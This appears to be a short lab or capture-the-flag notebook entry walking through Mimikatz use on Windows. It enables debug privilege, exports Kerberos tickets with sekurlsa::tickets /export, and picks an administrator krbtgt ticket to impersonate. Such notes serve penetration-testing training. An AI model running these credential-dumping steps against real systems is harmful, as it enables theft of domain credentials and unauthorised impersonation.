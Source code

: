 ```yaml
---
title: Prepare Mimikatz & Dump Tickets
updated: 2023-04-01T22:13:41.0000000+04:00
created: 2023-04-01T22:08:32.0000000+04:00
---
```


PM
You will need to run the command prompt as an administrator: use the same credentials as you did to get into the machine. If you don't have an elevated command prompt mimikatz will not work properly.

1.) cd Downloads - navigate to the directory mimikatz is in

2.) mimikatz.exe - run mimikatz

3.) privilege::debug

\- Ensure this outputs \[output '20' OK\] if it does not that means you do not have the administrator privileges to properly run mimikatz

![image1](image1-145.png)

4.  Sekurlsa::tickets /export

this will export all of the .kirbi tickets into the directory that you are currently in

At this step you can also use the base 64 encoded tickets from Rubeus that we harvested earlier

![image2](image2-72.png)

When looking for which ticket to impersonate I would recommend looking for an administrator ticket from the krbtgt just like the one outlined in red above.

